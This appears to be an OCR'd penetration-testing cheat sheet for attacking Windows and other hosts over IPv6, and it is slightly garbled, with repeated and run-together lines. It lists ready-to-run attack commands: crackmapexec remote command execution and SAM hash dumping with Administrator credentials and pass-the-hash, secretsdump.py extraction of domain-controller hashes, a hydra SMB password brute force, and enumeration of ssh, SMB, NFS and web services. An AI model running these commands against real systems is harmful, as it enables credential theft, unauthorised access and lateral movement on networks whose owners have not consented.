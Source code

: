### IPv6 Assessment

crackmapexec 2001:DB8:7654:3210:FEDC:BA98:7654:3210 -u Administrator -p 'Passw0rd' -x "ipconfig" 
crackmapexec 2001:DB8:7654:3210:FEDC:BA98:7654:3210-u Administrator -H "Hash" --sam 
crackmapexec cme-hosts.txt -u Administrator -H "Hash" --sam 
crackmapexec 2001:DB8:7654:3210:FEDC:BA98:7654:3210 -u Administrator -H "Hash" -x "hostname"
python secretsdump.py -hashes "Hash" -just-dc acmebank.loca/Administrator@2001:DB8:7654:3210:FEDC:BA98:7654:3210 
crackmapexec 2001:DB8:7654:3210:FEDC:BA98:7654:3210 -u Administrator -p 'Passw0rd' -x "ipconfig" |
crackmapexec cme-hosts.txt -u Administrator -H "Hash" --sam 
crackmapexec cme-hosts.txt -u Administrator -H "Hash" --sam 
crackmapexec cme-hosts.txt -u Administrator -H "Hash" --sam 

### IPv6 hydra Password Brute Force

hydra -l Administrator -P /usr/share/wordlists/metasploit/unix_passwords.txt -t 6 smb://[IPv6] 

### IPv6 Services

ssh MeMe@fe80::ea9a:8fff:fe67:190d%eth0 |
smbclient -L //IPV6%eth0 |
http://[IPV6] 
telnet IPV6 80 
mount -t nfs [2001:db8::60fe:5bff:febc:912]:/home/MeMe /home/mount/ 
curl -g [fe80::ba27:ebff:fe60:89af] 
curl -g [::1]:8080
curl -g http://[IPV6]:8080/ 
curl -I [IPV6] -v -V -K
dirb http://[IPV6]


